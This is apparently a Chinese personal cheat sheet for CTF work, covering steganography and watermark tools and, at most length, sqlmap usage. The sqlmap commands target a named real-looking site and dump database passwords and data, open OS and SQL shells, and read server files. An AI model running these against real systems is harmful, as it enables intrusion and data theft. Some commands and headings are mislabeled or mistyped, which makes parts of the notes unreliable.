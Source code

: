 
### 1、outguess工具，隐写读取，可带密钥
安装：直接kali安装即可
使用：
```bash
#不带密码：
outguess -r 图片文路径 -t 输出内容文件路径
#带密码
outguess -k ‘密码’ -r 图片文件路径 -t 输出路径

#隐写：
outguess -k  “密码” -d hidden。txt demo.jpg out.jpg
```
### 2、 rsa工具集-openssl，rsatool，rsactftool，rsaAtool

[[rsa工具集使用]]
### 3、CaptfEncoder：网络安全工具套件

[[CaptfEncoder]]
### 4、盲水印提取
工具kali安装：
```
pip install blind-watermark
```

```
# embed watermark into image:
blind_watermark --embed --pwd 1234 examples/pic/ori_img.jpeg "watermark text" examples/output/embedded.png
# extract watermark from image:
blind_watermark --extract --pwd 1234 --wm_shape 111 examples/output/embedded.png
```
### 5、sqlmap
探测
```bash

sqlmap -u "https://www.haifong.org/search?key=1"
#在虚拟机中，使用主机代理网络（注意首先需要开启clash的允许局域网访问）
sqlmap -u "https://www.haifong.org/search?key=1" --proxy=http://192.168.240.1:7890
#探测post，让他自己找参数
sqlmap -u "url" --form --batch

#指定探测post数据
#首先抓包一个post数据
sqlmap -u "url" --data="抓包抓到的post数据" -p 前面data的参数指定一个扫描

#抓一个数据包并将数据爆保存到文件里，post请求，用这种方式最好（get也可以用）
#使用-r参数
sqlmap -r 文件名

#判断cookie里有没有，可以使用--cookie


```
探测级别：
```
--level 
```
获取库名
```
sqlmap -u url --current-db --batch
```
获取数据库密码：
```
sqlmap -u url  --batch --password
```
获取字段名：
```
sqlmap -u url --batch -D 数据苦命 -T 表名  --columns
```
获取数据：
```shell
sqlmap -u url --batch -D 数据苦命 -T 表名  --columns
```
拿shell：
```shell
sqlmap -u url --os-shell
sqlmpa -u url --sql-shell #拿到这个shell，只能执行查询语句
```
上传文件：
```shell
#下载文件
sqlmap -u url --file-read 绝对路劲 -v  #100s后关机 -v查看详细信息，可以看到它使用的sql语句


```